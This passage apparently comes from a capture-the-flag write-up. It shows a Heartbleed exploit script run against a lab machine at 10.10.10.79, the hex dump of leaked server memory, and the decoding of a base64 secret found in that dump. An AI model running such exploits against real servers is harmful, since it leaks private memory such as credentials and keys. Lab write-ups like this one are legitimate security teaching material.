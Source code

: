 The third time I ran the exploit, the output showed something different.

```
$python 32764.py 10.10.10.79 | more
Trying SSL 3.0...
Connecting...
Sending Client Hello...
Waiting for Server Hello...
 ... received message: type = 22, ver = 0300, length = 94
 ... received message: type = 22, ver = 0300, length = 885
 ... received message: type = 22, ver = 0300, length = 331
 ... received message: type = 22, ver = 0300, length = 4
Sending heartbeat request...
 ... received message: type = 24, ver = 0300, length = 16384
Received heartbeat response:
  0000: 02 40 00 D8 03 00 53 43 5B 90 9D 9B 72 0B BC 0C  .@....SC[...r...
  0010: BC 2B 92 A8 48 97 CF BD 39 04 CC 16 0A 85 03 90  .+..H...9.......
  0020: 9F 77 04 33 D4 DE 00 00 66 C0 14 C0 0A C0 22 C0  .w.3....f.....".
  0030: 21 00 39 00 38 00 88 00 87 C0 0F C0 05 00 35 00  !.9.8.........5.
  0040: 84 C0 12 C0 08 C0 1C C0 1B 00 16 00 13 C0 0D C0  ................
  0050: 03 00 0A C0 13 C0 09 C0 1F C0 1E 00 33 00 32 00  ............3.2.
  0060: 9A 00 99 00 45 00 44 C0 0E C0 04 00 2F 00 96 00  ....E.D...../...
  0070: 41 C0 11 C0 07 C0 0C C0 02 00 05 00 04 00 15 00  A...............
  0080: 12 00 09 00 14 00 11 00 08 00 06 00 03 00 FF 01  ................
  0090: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
  00a0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
  00b0: 0A 00 16 00 17 00 08 00 06 00 07 00 14 00 15 00  ................
  00c0: 04 00 05 00 12 00 13 00 01 00 02 00 03 00 0F 00  ................
  00d0: 10 00 11 00 23 00 00 00 0F 00 01 01 30 2E 30 2E  ....#.......0.0.
  00e0: 31 2F 64 65 63 6F 64 65 2E 70 68 70 0D 0A 43 6F  1/decode.php..Co
  00f0: 6E 74 65 6E 74 2D 54 79 70 65 3A 20 61 70 70 6C  ntent-Type: appl
  0100: 69 63 61 74 69 6F 6E 2F 78 2D 77 77 77 2D 66 6F  ication/x-www-fo
  0110: 72 6D 2D 75 72 6C 65 6E 63 6F 64 65 64 0D 0A 43  rm-urlencoded..C
  0120: 6F 6E 74 65 6E 74 2D 4C 65 6E 67 74 68 3A 20 34  ontent-Length: 4
  0130: 32 0D 0A 0D 0A 24 74 65 78 74 3D 61 47 56 68 63  2....$text=aGVhc
  0140: 6E 52 69 62 47 56 6C 5A 47 4A 6C 62 47 6C 6C 64  nRibGVlZGJlbGlld
  0150: 6D 56 30 61 47 56 6F 65 58 42 6C 43 67 3D 3D 39  mV0aGVoeXBlCg==9
  0160: 2C 73 99 81 F5 57 44 A1 28 1D 0E 06 0D C7 48 32  ,s...WD.(.....H2
  0170: AA 71 91 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C  .q..............
  0180: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
  0190: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
  01a0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
```

There's a $text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg== in there. 

That base64-encoded string decodes to heartbleedbelievethehype.

```
$echo aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg== | base64 -d
heartbleedbelievethehype

```
